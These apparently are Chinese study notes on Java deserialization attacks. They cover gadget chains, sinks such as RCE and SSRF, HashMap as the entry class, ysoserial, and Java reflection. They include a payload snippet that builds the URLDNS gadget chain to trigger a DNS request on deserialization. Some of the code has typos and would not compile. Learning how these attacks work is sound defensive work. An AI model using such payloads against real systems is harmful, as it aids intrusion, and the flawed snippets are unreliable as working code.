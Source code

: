 3、调用链 gadget chain 相同名称，相同类型
4、执行 sink(rce,ssrf,写文件等) 
## 入口类的选择
Map接口的HashMap类
HashMap类重写了readObject方法
## 工具
ysoserial(github)
## payload(URLDNS链)
```
public static void main(String[] args){
    Person person = new Person("aa",22);//Person 类继承Serializabale接口
    HashMap<URL,Integer> hashmap = new HashMap<URL,Integer>();
    
    //这里不要发起请求,反序列化的时候发起DNS请求
    URL url = new URL("http://");
    //通过反射改变已有对象的属性
    Class c = url.getClass();
    Field field=c.getDeclareField("hashCode");
    field.setAccessible(true);
    field.set(url,1234);
    hashmap.put(url,1); //添加键值对
    //这里把hashcode改为-1
    field.set(url,-1);
    serialize(hashmap);
 }
```
## Java反射
### 在执行时操作和修改类的属性和方法
作用：
+ 让Java具有动态性
+ 修改已有对象的属性
+ 动态生成对象
+ 动态调用方法
+ 操作内部类和私有方法

### 在反序列化中的利用：
+ 定制需要的对象
+ 通过invoke调用除了同名函数以外的函数
+ 通过Class类创建对象，引入不能序列化的类

### 反射能修改的部分：
设置访问权限
```
setAccessible();
```
获取和创建Class对象
```
//获取对象
Class.forName();
Person.class;
peson.getClass()
//创建对象 
Class.newInstance();
Counstructor.newInstance();
```
获取构造方法
```
Class a = person.getClass();
Constructor constructor = a.getConstructor();
```
